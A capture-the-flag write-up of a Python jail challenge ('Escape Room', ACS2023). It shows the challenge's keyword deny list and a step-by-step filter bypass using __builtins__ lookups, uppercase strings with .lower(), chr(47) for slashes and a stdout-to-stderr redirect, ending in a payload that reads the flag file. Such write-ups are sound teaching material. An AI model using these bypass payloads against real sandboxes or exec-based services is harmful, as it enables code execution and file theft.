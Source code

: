 ```yaml
---
title: "Escape Room [Code Audit]"
categories: Acs2023
permalink: /ctfs/acs2023/escaperoom
---
```

Python Jail challenge for bypassing condition checks and performing code execution.

## 📁 Challenge Description

> Can you escape?
>
> Connect to instance: `nc 192.168.0.45 50137`

```python
import os, sys

def main():
  filter_list = ['sys','import','flag','open','/',"sh","bin",'eval','exec','os','read','system']

  print("Please Input your Source code > ")
  user_data = ''
  while True:
    temp = input()
    if(temp == 'EOF'):
      break

    user_data += temp + '\n'

  print(user_data)
  for filter_str in filter_list:
    if filter_str in user_data:
      print("No hack plz!")
      exit(0)

  binary = compile(user_data, '<string>', 'exec')
  
  os.close(0)
  os.close(1)
  exec(binary)

if __name__ == '__main__':
  
  main()
```

## 🚩 Solution

The program accepts multi-line inputs until it detects the word `'EOF'` at the end of the input. The flag is placed somewhere in the instance. So, we need to figure out how to bypass the condition checks and successfully execute our commands.

Looking through the code, the program seems like filtered out some significant words including `sys`, `import`, `flag`, `open`, `eval`, `exec`, `os`, `read`, `system`, `bin`, `sh`, even the word `flag` and `/`.

We know we need to use these words to help us retrieve the flag. 

During the competition, I found an amazing [write-up](https://anee.me/escaping-python-jails-849c65cf306e) that is very similar to this challenge. Python has a `__builtins__` module that can directly access the pre-defined functions using `__dict__` representation.

Example:

```python
>>> import os.system
>>> __builtins__.__dict__['__import__']('os').__dict__['system']('')
```

These two lines have the same meaning. Of course, we are not going to directly insert the filtered words as they get rejected based on the list.

Luckily, there is a flaw in the `filter_list` where it only checks for the lowercase of the words. Therefore, we can capitalize all the words and add `.lower()` to bypass the check.

```python
>>> __builtins__.dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('')
```

Ok, now here is a problem. The program has another line that prevents returning any outputs to the user. Here is the line,

```python
os.close(0)
os.close(1)
exec(binary)
```

The `os.close()` accepts **File Descriptors** as a parameter. By default, file descriptor `0` refers to standard input, `1` refers to standard output, and `2` refers to standard error. By knowing this, we know that the program is currently using the standard output as it is trying to close this file descriptor before the commands are executed. So, when we attempt to print any output, it will return

```
$ nc 192.168.0.45 50137
Please Input your Source code > 
print('anything')
EOF

Exception ignored in: <_io.TextIOWrapper name='<stdout>' mode='w' encoding='utf-8'>
OSError: [Errno 9] Bad file descriptor
```

What should we do next? The program does close the standard output but it returns an error. Remember that `2` is the file descriptor for standard error which the program does not include it. Hence, I ended up with a crazy move that I can redirect my standard error to standard output.

```python
>>> __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
```

Now, the error is my standard output, which means any output is replacing the error output slot. By defining this line, the `print()` function will work successfully.

```
$ nc 192.168.0.45 50137
Please Input your Source code > 
print('anything')
EOF

anything
```

Combine what we have now and we can make our payload.

```
__builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower())
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47))
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47)+'ctf_user'+chr(47)))

['ctf_user']
['.bashrc', '.bash_logout', '.profile', 'flag', 'main.py']
```

As the program checks `/`, we replace it with `chr(47)` which gives the same meaning. The `os.listdir()` is also used to list the current directory by providing an absolute path and we found a `ctf_user` directory.

Getting deeper, we found the `flag` file. We used the same `.lower()` method to bypass that. However, the program filters the word `read` where `__builtins__` does not include it. Hence, we use a `for` loop to print every character out without abusing the condition checks. From here, we got the flag.

Final payload:

```
$ nc 192.168.0.45 50137
Please Input your Source code >
__builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower())
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47))
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47)+'ctf_user'+chr(47)))
f = __builtins__.__dict__['OPEN'.lower()](chr(47)+'home'+chr(47)+'ctf_user'+chr(47)+'FLAG'.lower(), 'r')
for i in f:
        print(i)
EOF

['ctf_user']
['.bashrc', '.bash_logout', '.profile', 'flag', 'main.py']
ACS{r00m_nam3_i4_sandbox__and__y0u_escap3_r00m_successfully!!!}
```

Hope you enjoyed it!
